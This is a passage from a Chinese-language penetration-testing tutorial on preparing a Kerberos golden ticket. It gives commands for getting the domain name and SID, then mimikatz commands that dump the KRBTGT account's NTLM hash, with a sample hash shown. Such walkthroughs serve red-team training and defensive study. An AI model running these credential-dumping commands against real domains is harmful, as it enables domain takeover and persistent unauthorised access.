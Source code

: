 ### 4.1.1. 操作演示

这里我就不在CS中去操作了，直接实际操作，如果出现一些无法在CS中完成的，我会进行说明。

#### 4.1.1.1. 获取域名与SID

注意这里的SID最后面的4位是不需要的。

```
whoami    ##获取本地账户
net time /domain   ##获取域名
whoami /all      ##获取sid：S-1-5-21-1695257952-3088263962-2055235443
```

![image-20230816123606176](assets/image-20230816123606176.png)

#### 4.1.1.2. 获取KRBTGT账户NTLM

这里需要使用mimikatz来进行获取。

```
privilege::debug
lsadump::lsa /patch /user:krbtgt   ##558ae7f88589153355cbeb046ac696df
```

![image-20230816124845232](assets/image-20230816124845232.png)
